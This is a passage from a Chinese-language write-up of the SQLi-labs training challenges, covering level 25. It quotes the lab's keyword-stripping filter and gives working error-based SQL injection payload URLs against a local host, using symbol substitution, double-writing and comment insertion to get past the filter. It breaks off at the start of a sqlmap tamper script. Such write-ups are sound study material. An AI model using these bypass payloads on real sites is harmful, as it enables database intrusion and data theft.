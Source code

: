 ```yaml
---
 title: Sqlilabs通关笔记(25-28)绕过注入
 date: 2020-01-07 16:58:27
 tags: SQL注入
 categories: SQL注入
---
```



## 第二十五关 基于错误的GET单引号-你的OR及AND归我所有
这个系列是绕过注入，题目已提示需要绕过的字符，且能显示出输入的payload

![2020-1-8-12-25-30](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-8-12-25-30)

### 源码审计
```php
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
	
	return $id;
}
```
**从代码可以看出是吧or和and忽略大小正则替换成空**


### 绕过方式

* 符号替换绕过
    **数学符号**
    > and = && or = ||
    &对应url编码%26,|对应url编码%7

    **payload**:
    > http://127.0.0.1/sqlilabs2/Less-25/?id=1' || extractvalue(null,concat(0x7e,database(),0x7e))%23

* 双写绕过
    > oorr # 替换为空仍为or
    anandd # 替换为空仍为and
    
    **payload**:
    > http://127.0.0.1/sqlilabs2/Less-25/?id=1' oorr extractvalue(null,concat(0x7e,database(),0x7e))%23

* 注释绕过
    > and = an/\*\*/d    or = o/\*\*/r

    **payload**:
    > http://127.0.0.1/sqlilabs2/Less-25/?id=1' oorr extractvalue(null,concat(0x7e,database(),0x7e))%23

### SQLMAP编写tamper绕过
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

```